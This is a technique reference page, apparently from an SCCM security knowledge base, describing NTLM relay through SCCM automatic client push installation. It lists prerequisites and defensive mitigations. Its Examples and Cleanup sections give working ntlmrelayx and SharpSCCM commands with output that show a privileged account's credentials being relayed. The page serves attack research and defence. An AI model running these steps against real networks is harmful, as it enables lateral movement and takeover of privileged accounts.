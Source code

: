 # ELEVATE-2

## Description
NTLM relay via automatic client push installation

## MITRE ATT&CK Tactics
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to HTTPS (TCP/443) on a management point
- Connectivity from the primary site server to SMB (TCP/445) on the relay server
- Primary site server settings:
    - Automatic site-wide client push installation is enabled
    - Automatic site assignment is enabled
    - `Allow connection fallback to NTLM` is enabled for client push installation
    - PKI certificates are not required for client authentication
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
    - Domain computer account is not in `Protected Users`
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target

### Relay
- Relay target settings:
    - Connectivity from the relay server to SMB (TCP/445) on the relay target
    - `RequireSecuritySignature` = `0` or not present
    - `RestrictReceivingNTLMTraffic` = `0` or not present
    - Coercion target is local admin (to access RPC/admin shares)
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target

## Summary
When SCCM automatic site assignment and automatic client push installation are enabled, and PKI certificates aren’t required for client authentication, it’s possible to coerce NTLM authentication from the site server's installation and machine accounts to an arbitrary NetBIOS name, FQDN, or IP address, allowing the credentials to be relayed or cracked. This can be done using a low-privileged domain account on any Windows system.

## Impact
Client push installation accounts require local admin privileges to install software on systems in an SCCM site, so it is often possible to relay the credentials and execute actions in the context of a local admin on other SCCM clients in the site. Many organizations use a member of highly privileged groups such as "Domain Admins" for client push installation for the sake of convenience.

If all configured accounts fail when the site server tries to authenticate to a system to install the client, or if no specific installation accounts are configured, the server tries to authenticate with its domain computer account. If SMB is used, [TAKEOVER-1](../../TAKEOVER/TAKEOVER-1/takeover-1_description.md) and [TAKEOVER-2](../../TAKEOVER/TAKEOVER-2/takeover-2_description.md) may be possible. If the WebClient (WebDAV) service is enabled on the site server, it is possible to coerce NTLM authentication via HTTP, allowing relay to LDAP or HTTP to conduct attacks such as Shadow Credentials, Resource-based Constrained Delegation, or AD CS ESC8 to take over the server ([TAKEOVER-3](../../TAKEOVER/TAKEOVER-3) or [TAKEOVER-4](../../TAKEOVER/TAKEOVER-8/)).

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [DETECT-3: Monitor client push installation accounts authenticating from anywhere other than the primary site server](../../../defense-techniques/DETECT/DETECT-3/detect-3_description.md)
- [PREVENT-1: Patch site server with KB15599094](../../../defense-techniques/PREVENT/PREVENT-1/prevent-1_description.md)
- [PREVENT-2: Disable Fallback to NTLM](../../../defense-techniques/PREVENT/PREVENT-2/prevent-2_description.md)
- [PREVENT-5: Disable automatic side-wide client push installation](../../../defense-techniques/PREVENT/PREVENT-5/prevent-5_description.md)
- [PREVENT-8: Require PKI certificates for client authentation](../../../defense-techniques/PREVENT/PREVENT-8/prevent-8_description.md)
- [PREVENT-11: Disable and uninstall WebClient on site servers](../../../defense-techniques/PREVENT/PREVENT-11/prevent-11_description.md)
- [PREVENT-12: Require SMB signing on site systems](../../../defense-techniques/PREVENT/PREVENT-12/prevent-12_description.md)

## Examples
It is not possible to identify whether automatic site-wide client push installation, automatic site assignment, and `Allow connection fallback to NTLM` are enabled without attempting this attack.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the relay target and the SMB service:

    ```
    # impacket-ntlmrelayx -smb2support -ts -ip <NTLMRELAYX_LISTENER_IP> -t <RELAY_TARGET_IP>
    Impacket v0.11.0 - Copyright 2023 Fortra

    [2024-02-26 15:49:48] [*] Protocol Client MSSQL loaded..
    [2024-02-26 15:49:48] [*] Protocol Client LDAPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client LDAP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client RPC loaded..
    [2024-02-26 15:49:48] [*] Protocol Client HTTPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client HTTP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client IMAPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client IMAP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client SMTP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client SMB loaded..
    [2024-02-26 15:49:48] [*] Protocol Client DCSYNC loaded..
    [2024-02-26 15:49:50] [*] Running in relay mode to single host
    [2024-02-26 15:49:50] [*] Setting up SMB Server
    [2024-02-26 15:49:50] [*] Setting up HTTP Server on port 80
    [2024-02-26 15:49:50] [*] Setting up WCF Server
    [2024-02-26 15:49:50] [*] Setting up RAW Server on port 6666

    [2024-02-26 15:49:50] [*] Servers started, waiting for connections
    ```

2. Use SharpSCCM's `invoke client-push` function to register a new device with the management point and send a DDR to initiate automatic client push installation to your relay server running ntlmrelayx:

    ```
    SharpSCCM.exe invoke client-push -sms <MANAGEMENT_POINT> -sc <SITECODE> -t <NTLMRELAYX_LISTENER_IP>

    [+] Created "ConfigMgr Client Messaging" certificate in memory for device registration and signing/encrypting subsequent messages
    [+] Reusable Base64-encoded certificate:

        308209D2...020207D0

    [+] Discovering local properties for client registration request
    [+] Modifying client registration request properties:
        FQDN: <NTLMRELAYX_LISTENER_IP>
        NetBIOS name: <NTLMRELAYX_LISTENER_IP>
        Site code: <SITECODE>
    [+] Sending HTTP registration request to <MANAGEMENT_POINT>:80
    [+] Received unique SMS client GUID for new device:

        GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C

    [+] Discovering local properties for DDR inventory report
    [+] Modifying DDR and inventory report properties
    [+] Discovered PlatformID: Microsoft Windows NT Server 10.0
    [+] Modified PlatformID: Microsoft Windows NT Workstation 2010.0
    [+] Sending DDR from GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C to MP_DdrEndpoint endpoint on <MANAGEMENT_POINT>:<SITECODE> and requesting client installation on <NTLMRELAYX_LISTENER_IP>
    [+] Completed execution in 00:00:16.1952455
    ```
    **Note**: Sometimes, this command results in a client device record being created, but SCCM does not kick off automatic client push installation right away. Running the same command again should kick off the process.

3. After a few minutes, ntlmrelayx should receive a connection from the configured client push installation account(s) and the site server’s machine account:
    ```
    [2024-02-26 16:19:47] [*] SMBD-Thread-5 (process_request_thread): Received connection from <SITE_SERVER>, attacking target smb://<RELAY_TARGET>
    [2024-02-26 16:19:48] [*] Authenticating against smb://<RELAY_TARGET> as MAYYHEM/CLIENTPUSH SUCCEED
    ```


### Cleanup
It is not possible to remotely delete device records or remove CCRs in the retry queue that are created by heartbeat DDRs without having `Full Administrator` privileges to SCCM. By default, the site will retry client push installation every 60 minutes for 7 days, and if a newly discovered device sits in the client push installation retry queue for more than 24 hours, an error message may be displayed in the console to administrators.

With `Full Administrator` access to SCCM, artifacts created by SharpSCCM that cause client push installation retries can be removed from the site server and database through the ConfigMgr console or using SharpSCCM.

The following command can be used to identify the device's ResourceId:

```
SharpSCCM.exe get devices -sms <SMS_PROVIDER> -sc <SITECODE> -n <NTLMRELAYX_LISTENER_IP> -p "Name" -p "ResourceId" -p "SMSUniqueIdentifier"

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Executing WQL query: SELECT ResourceId,Name,SMSUniqueIdentifier FROM SMS_R_System WHERE Name LIKE '%<NTLMRELAYX_LISTENER_IP>%'
-----------------------------------
SMS_R_System
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777236
SMSUniqueIdentifier: GUID:593FA39D-B6C6-4B8F-A4DE-2454503116FC
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777237
SMSUniqueIdentifier: GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
-----------------------------------
```

The following command can be used to remove a device with a specified GUID:

```
SharpSCCM.exe remove device GUID:<GUID> -sms <SMS_PROVIDER> -sc <SITECODE>

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Deleted device with SMSUniqueIdentifier GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
[+] Completed execution in 00:00:01.8554465
```

## References
- Chris Thompson, [Coercing NTLM Authentication from SCCM Servers](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- Chris Thompson, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM)